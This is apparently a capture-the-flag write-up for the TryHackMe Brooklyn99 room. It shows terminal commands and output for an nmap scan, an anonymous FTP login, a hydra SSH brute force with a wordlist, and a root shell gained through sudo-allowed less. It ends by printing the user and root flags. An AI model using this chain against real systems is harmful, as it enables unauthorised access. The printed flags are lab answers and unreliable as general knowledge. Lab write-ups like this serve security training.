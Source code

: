 [Brooklyn99](https://tryhackme.com/room/brooklynninenine)

**nmap** reveals
- 21/tcp ftp
- 22/tcp ssh
- 80/tcp http
```bash
┌──(kali㉿kali)-[~/cyberseclabs/shares]
└─$ sudo nmap -O -sV -vv -A 10.10.226.25
```
**enumeration** of ftp port 21
- discovered ftp is anonymous only
- exploited ftp through anonymous/no password 
- get 'note_to_jake.txt'
```bash
┌──(kali㉿kali)-[~]
└─$ ftp 10.10.226.25
Connected to 10.10.226.25.
220 (vsFTPd 3.0.3)
Name (10.10.226.25:kali): admin
530 This FTP server is anonymous only.
ftp: Login failed
ftp> 
ftp> exit
221 Goodbye.
                                                                                                 
┌──(kali㉿kali)-[~]
└─$ ftp 10.10.226.25
Connected to 10.10.226.25.
220 (vsFTPd 3.0.3)
Name (10.10.226.25:kali): anonymous 
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> dir
229 Entering Extended Passive Mode (|||18509|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0             119 May 17  2020 note_to_jake.txt
226 Directory send OK.
ftp> get note_to_jake.txt
local: note_to_jake.txt remote: note_to_jake.txt
229 Entering Extended Passive Mode (|||28731|)
150 Opening BINARY mode data connection for note_to_jake.txt (119 bytes).
100% |****************************************************|   119        1.82 KiB/s    00:00 ETA
226 Transfer complete.
119 bytes received in 00:00 (0.69 KiB/s)
```
**cat** note_to_jake reveals that jake is a user and has a password
- may also be able to assume that holt and amy have accounts also
```bash
┌──(kali㉿kali)-[~]
└─$ cat note_to_jake.txt 
From Amy,

Jake please change your password. It is too weak and holt will be mad if someone hacks into the nine nine
```
running hydra on jake with the info that he has a weak password
```bash
┌──(kali㉿kali)-[~/cyberseclabs/shares]
└─$ hydra -l jake -P /opt/rockyou.txt 10.10.226.25 ssh
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-01-29 10:45:17
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344398 login tries (l:1/p:14344398), ~896525 tries per task
[DATA] attacking ssh://10.10.226.25:22/
[22][ssh] host: 10.10.226.25   login: jake   password: 987654321
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 2 final worker threads did not complete until end.
[ERROR] 2 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-01-29 10:45:55
```
**Log in** with jake using password 987654321 from hydra scan
```bash
┌──(kali㉿kali)-[~/cyberseclabs/shares]
└─$ ssh jake@10.10.226.25               
jake@10.10.226.25's password: 
Permission denied, please try again.
jake@10.10.226.25's password: 
Last login: Tue May 26 08:56:58 2020
```
nothing found in jake folders
running sudo -l for incorrectly setuid permissions via GTFO bins 
```bash
jake@brookly_nine_nine:~$ sudo -l
Matching Defaults entries for jake on brookly_nine_nine:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jake may run the following commands on brookly_nine_nine:
    (ALL) NOPASSWD: /usr/bin/less
jake@brookly_nine_nine:~$ sudo less /etc/profile
# whoami
root
```
searching holt directory we find user.txt
```bash
root@brookly_nine_nine:/home# cd holt
root@brookly_nine_nine:/home/holt# ls
nano.save  user.txt
root@brookly_nine_nine:/home/holt# cat user.txt 
ee11cbb19052e40b07aac0ca060c23ee
```
searching root directrory we find 
```bash
root@brookly_nine_nine:/root# cat root.txt 
-- Creator : Fsociety2006 --
Congratulations in rooting Brooklyn Nine Nine
Here is the flag: 63a9f0ea7bb98050796b649e85481845

Enjoy!!

```










